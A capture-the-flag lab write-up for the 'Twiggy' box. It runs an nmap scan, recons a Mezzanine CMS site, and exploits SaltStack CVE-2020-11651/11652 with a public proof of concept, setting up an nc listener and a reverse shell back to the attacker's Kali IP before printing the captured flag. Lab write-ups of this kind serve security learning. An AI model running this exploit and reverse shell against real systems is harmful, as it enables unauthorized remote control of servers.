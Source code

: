 ```yaml
---
aliases:
  - twiggy
tags:
  - pg-playground
  - linux
  - enumeration
  - exploitation
os: Linux
difficulty: Easy
date: 2025-04-09
status: owned
---
```

### 1. Box Summary

| Field          | Value            |
| -------------- | ---------------- |
| Name           | Twiggy           |
| IP             | `192.168.145.62` |
| OS             | Linux            |
| Difficulty     | Medium           |
| Date Completed | 9 April 2025     |
| Exploited Via  | RCE              |
| Flags Captured | ✅ Root           |

### 2. Enumeration

Quick Nmap Scan just to see what's going on as usual:

```
nmap -sCV -p- -T4 192.168.145.62
```

Here's the report:

```
Nmap scan report for 192.168.145.62
Host is up (0.043s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:7d:1a:56:9b:68:ae:f5:3b:f6:38:17:73:16:5d:75 (RSA)
|   256 1c:78:9d:83:81:52:f4:b0:1d:8e:32:03:cb:a6:18:93 (ECDSA)
|_  256 08:c9:12:d9:7b:98:98:c8:b3:99:7a:19:82:2e:a3:ea (ED25519)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-title: Home | Mezzanine
|_http-server-header: nginx/1.16.1
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
|_http-title: Site doesn't have a title (application/json).
|_http-open-proxy: Proxy might be redirecting requests

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 108.93 seconds
```

### 3. Web Recon

Browsing to `http://192.168.145.62:80`:

- Shows a site using **Mezzanine CMS**
    
- There's an **admin interface**, but login fails.

![screenshot](images/Twiggy-1744177123093.jpeg)


Tried some login guesses — nothing obvious.

![screenshot](images/Twiggy-1744178077284.jpeg)

Moved on to check `http://192.168.145.62:8000/` — it returns JSON but no content: time to do some research on ZeroMQ ZMTP 2.0 as well 

![screenshot](images/Twiggy-1744178200043.jpeg)

### 🔥 Exploitation: SaltStack RCE (CVE-2020-11651 / 11652)

Apparently we have something good on [exploitDB](https://www.exploit-db.com/exploits/48421) , let's just run Saltstack 3000.1 - Remote Code Execution like some script kiddie, and my guy actually uploaded a [poc](https://github.com/Al1ex/CVE-2020-11652/blob/main/CVE-2020-11652.py) for it... good stuff

🔹 Create & Activate Virtual Environment
```
python3 -m venv salt-venv
source salt-venv/bin/activate
```

🔹 Install Dependencies
```
pip install salt==3002 msgpack PyYAML pyzmq jinja2 tornado requests
```

🛠️ Reverse Shell Prep
We will prep it by noting down:
- **Kali IP**: `192.168.45.197`
- **Target IP**: `192.168.145.62`
- **Listener Port**: `80`

🔹 Set up listener
```
nc -lvnp 80
```

🔹 Run the exploit
```
python3 exploit.py \
  --master 192.168.145.62 \
  --port 4506 \
  --shell-LHOST 192.168.45.197 \
  --shell-LPORT 80
```

![screenshot](images/Twiggy-1744181043545.jpeg)

Shell caught on listener:

![screenshot](images/Twiggy-1744181018801.jpeg)

FLAG:
```
02e2283f7e95835128a4a48a72dfd629
```
